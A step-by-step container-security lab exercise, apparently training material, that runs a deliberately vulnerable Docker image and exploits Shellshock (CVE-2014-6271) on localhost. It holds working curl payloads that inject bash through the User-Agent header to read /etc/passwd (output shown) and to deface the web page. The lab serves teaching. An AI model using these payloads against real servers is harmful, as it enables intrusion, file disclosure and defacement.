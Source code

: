 ## Vulnerable/Outdated Libraries - Shell-Shock (Bash) 

    

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `/home/we45/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock`

    ```commandline
    cd /home/we45/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock
    ```

##### Step 3:

* Run the image vulnerable to shell-shock `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    
    ```
    
##### Step 4:

* Open browser and run `http://localhost:8080` to verify the application is running or not.

![](img/shellshock-browser.png)

##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
> http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 6:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```

##### Step 7:

* Access http://localhost:8080 on browser to confirm.

![](img/defaced.png)

##### Step 8:

* Run `clean-docker` to stop all containers.  

    ```commandline
    (venv)root@we45: clean-docker
    92200af86b18
    ca94dab2d52e
    92200af86b18
    34c4adcf326d
    86cd73d03ef1
    ca94dab2d52e
    "docker rmi" requires at least 1 argument.
    See 'docker rmi --help'.
    
    Usage:  docker rmi [OPTIONS] IMAGE [IMAGE...]
    
    Remove one or more images
    
    ```